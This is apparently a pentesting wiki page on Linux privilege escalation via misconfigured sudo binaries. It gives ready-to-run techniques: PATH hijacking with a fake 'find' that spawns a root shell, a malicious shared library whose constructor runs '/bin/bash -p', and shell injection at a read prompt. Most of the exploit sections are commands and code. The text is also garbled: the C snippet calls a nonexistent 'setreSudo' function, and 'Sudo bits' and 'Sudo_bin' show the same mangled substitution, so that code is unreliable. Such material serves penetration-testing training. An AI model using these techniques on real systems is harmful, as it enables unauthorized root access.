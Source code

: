 # SUDO Binaries

## Theory

sudo is a widely used tools that allows regular users to execute commands with elevated privileges on Linux. Privileges escalation can occur if the binaries that you can run with sudo is not properly setup

## Practice

### Known Sudo Binaries Exploits

{% tab title="GTFOBins" %}
If you find that a binary have the Sudo bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known Sudo exploits.
{% endtab %}
{% endtabs %}

### Relative Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **Sudo** binary executes another command **without specifying the full path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **Sudo** binary.

```bash
strings ./the-sudo-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **Sudo** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the Sudo binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-sudo-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **Sudo** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **Sudo** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a Sudo using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The Sudo also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **Sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setreSudo(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the Sudo binary

```bash
sudo ./the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./Sudo_bin: symbol lookup error: ./Sudo_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}


### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a **Sudo** script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/sudo-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}